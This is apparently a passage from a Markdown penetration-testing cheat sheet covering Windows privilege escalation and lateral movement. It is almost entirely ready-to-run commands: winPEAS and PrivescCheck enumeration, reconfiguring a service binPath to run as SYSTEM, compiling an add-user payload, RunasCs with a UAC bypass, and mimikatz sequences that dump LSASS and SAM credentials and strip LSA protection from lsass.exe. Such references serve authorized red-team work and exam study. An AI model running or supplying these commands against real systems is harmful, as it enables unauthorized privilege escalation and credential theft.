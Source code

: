 ```powershell
.\winPEAS.ps1
```

### PrivescCheck
```powershell
Import-Module .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended
```

### Service
get info
```cmd
sc qc <service>
```

update binPath, start, user
```cmd
sc config <service> binPath= "<path>"
sc config <service> start=demand
sc config <service> obj="NT AUTHORITY\SYSTEM"
```

### Add User
compile C code
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### Runas
run command as user, bypassing UAC
```powershell (Invoke-RunasCs.ps1)
Invoke-RunasCs -User <user> -Password <password> -LogonType 8 -BypassUac -Command '<command>'
```


## Lateral Movement

### Credential Gathering
* mimikatz
hash dump
```mimikatz
privilege::debug
token::elevate
sekurlsa::logonpasswords
lsadump::sam
```

disable LSA Protection (`mimidrv.sys` required)
```mimikatz
!+
!processprotect /process:lsass.exe /remove
```
